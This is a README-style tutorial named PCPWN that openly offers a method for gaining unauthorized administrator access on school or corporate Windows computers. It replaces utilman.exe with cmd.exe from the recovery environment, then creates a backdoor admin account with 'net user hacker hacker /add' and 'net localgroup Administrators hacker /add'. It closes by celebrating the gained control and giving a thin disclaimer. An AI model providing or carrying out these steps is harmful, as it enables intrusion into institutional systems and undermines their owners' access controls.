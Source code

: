 
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/207/207130.png", width="200", height="200">
</p>

<h1 align="center"> [ PCPWN ]</h1>
<h4 align="center">How can I obtain administrative privileges on a school computer
</h4>

### DESCRIPTION
PCPWN is an informative tutorial that guides you through the process of gaining unauthorized access to administrative privileges on a computer within a school or corporate environment, all without relying on the pre-existing company-created admin account.

### 1. Access Windows RE (Recovery Environment):
  Start by accessing recovery mode on the target system. [7 Quick Ways to Boot Into the Windows Recovery Environment](https://www.makeuseof.com/ways-to-boot-into-the-windows-recovery-environment/)
    
  #### When the computer is turned off:

        Press and hold the Windows Key and press the power button.
        Release both keys.

 #### From the Windows Logon screen:
        Click the Power Button icon.
        Hold the SHIFT Key and click Restart.


<table>
  <tr>
    <td align="center">
      <a href="#"><img src="https://www.windowspasswordsrecovery.com/images/topic/fix-windows/repair-your-computer.jpg" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/Hi2fqIr.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
     <a href="#"><img src="https://i.imgur.com/xpSfUCj.png" width="300" /></a>
        <br />
      </a>
    </td>
</table>

  Select "Repair Your Computer," then navigate to "Troubleshoot," and finally, select "Command Prompt."

### 2. Utilizing Command Prompt:
    In the Command Prompt, type notepad to open the Notepad text editor.
    select file | click save as | select this pc | select all files |

<table>
  <tr>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/lUC9sBN.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/6QUeUIC.png" width="300" /></a>
        <br />
      </a>
    </td>
</table>

### 3. Changing Utilman to CMD:
    Navigate to drive X (replace X with the appropriate drive).
    Go to System32 and rename cmd to utilman.
    Exit the Command Prompt.

### 4. Adding a User Account:
    Return to the login screen and click on "Ease of Access Icon."
    Type the following command: 
    net user hacker hacker /add 
    net localgroup Administrators hacker /add

<table>
  <tr>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/Ebi9VG1.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/HiFXNMi.png" width="300" /></a>
        <br />
      </a>
    </td>
</table>

### 5. Logging In with the New Account with admin priv:
    Log in with your non-administrator account.
    Open PowerShell as an administrator.
    Type username: DOMAIN\hacker password: hacker

Guess what? You've got the keys to the kingdom now! Your regular account? Well, it's not so regular anymore. It's been upgraded to full-on admin mode. That means you're not just a regular user – you're the boss.

With these admin superpowers, you can do a whole bunch of cool stuff. Need to tweak some settings? No problem. Want to add or manage users? Easy peasy. It's like having a backstage pass to the entire system. So go ahead, explore, and make this digital world yours!

### TESTED ON FOLLOWING
* Windows 11
* Windows 10
* Windows 7

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**
   
<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this tutorial, so please only use it for good and educational purposes. </h4>

